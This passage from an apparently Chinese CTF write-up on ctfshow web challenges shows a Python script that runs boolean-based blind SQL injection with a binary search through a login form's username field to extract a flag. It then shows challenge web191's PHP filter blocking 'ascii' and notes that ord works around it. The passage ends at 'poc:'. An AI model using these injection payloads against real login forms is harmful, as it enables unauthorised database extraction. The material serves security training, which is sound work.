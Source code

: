 ```python
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# 爆字段
payload = "select f1ag from ctfshow_fl0g"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(ascii(substr(({}), {}, 1)) > {}, 1, 0)-- -".format(payload, i, mid),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
        
```
## web191（布尔注入，过滤了ascii）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
过滤了ascii，还可以用ord，效果如下图
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639053780232-030a5388-9280-44e4-83e9-58aeed1dfa2d.png)
poc：
